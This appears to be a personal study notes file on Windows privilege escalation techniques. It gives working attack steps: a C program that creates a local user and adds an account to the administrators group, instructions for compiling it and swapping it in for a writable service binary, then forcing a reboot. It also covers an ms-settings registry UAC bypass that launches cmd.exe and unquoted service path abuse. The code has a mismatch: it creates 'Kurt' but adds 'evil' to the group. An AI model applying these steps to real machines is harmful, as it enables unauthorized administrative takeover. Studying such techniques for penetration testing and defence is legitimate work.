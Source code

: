 # Windows Privilege Escalation Notes  

## net commands  

Check who is in local administrators group.  

`net localgroup Administrators`  


Find user privileges.  

`whoami /priv`

Find running processes.  

`tasklist`  

Find running processes with powershell.  

`Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}`  

## Services  

Are services running program files binaries? These are user installed and the structure and permissions are set by the user or developer.  

Permissions of a service.  

`icacls "C:\Program Files\someDirectory\bin\someBinary.exe"`  

Most relevant permissions.  

```
Mask | Permissions
------------------
F    | Full access 
M    | Modify access
RX   | Read and Execute access
R    | Read-only access
W    | Write-only access
```  

If we find a service with a binary that has full read/write permissions, it can be replaced with something of my choosing.  

The following C code creates a user 'Kurt' and adds him to the local administrator group.  

```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user Kurt password123 /add");
  i = system ("net localgroup administrators evil /add");
  
  return 0;
}
```  

This can be compiled on a kali machine.  

`i686-w64-mingw32-gcc adduser.c -o adduser.exe`  

Move the service binary to keep the original intact.  

`move "C:\Program Files\someDirectoy\bin\someBinary.exe" "C:\Program Files\someDirectory\bin\someBinary_original.exe"`  

Move the malicious binary to the binary the service runs.  

`move adduser.exe "C:\Program Files\someDirectory\bin\someBinary.exe"`  

If we do not have permission to restart this service, we can check if it starts in auto.  

`wmic service where caption="SomeService" get name, caption, state, startmode`  

If the user has reboot permission, a reboot can restart the service automatically and run the malicous binary.  

`shutdown /r /t 0`  


## Integrity levels  

Find group information and integrity level.  

`whoami /groups`  

Change admin password.  

`net user admin newpassw0rd!`  

To change to high integrity level while admin.  

`powershell.exe Start-Process cmd.exe -Verb runAs`  

## Application manifest  

The application manifest is an xml file that informs the os how to handle the program when it is started.  

Using SysinternalsSuite.  

`sigcheck.exe -a -m C:\Windows\System32\aBinary.exe`  

## Processes  

From SysinternalsSuite, use this binary to find out information about a running process.  

`procmon.exe`  

## Reg Keys  

Find attempts to interact with registry keys that give the error.  

`NAME NOT FOUND`  

To tamper with registry keys, we can find our hive with read/write access, this is current user HKEY_CURRENT_USER.  

`HKCU`  

To add a registry key.  

`REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command`  

To add a registry key with v for value name and t for the type.  

`REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ`  

To add a value to a registry key, d is the value and f to add silently.  

`REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f`  

## Unquoted service paths  

This attack is possible when a service directory and sub-directory has write access but the files within cannot be replaced.  

Windows will attempt to execute this unquoted path.  

`C:\Program Files\My Program\My Service\service.exe`  

In the following way.  

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```  

In the above, a executable  

`My.exe`  

Could be placed in.  

`C:\Program Files\My Program`  

If write permissions are misconfigured.  

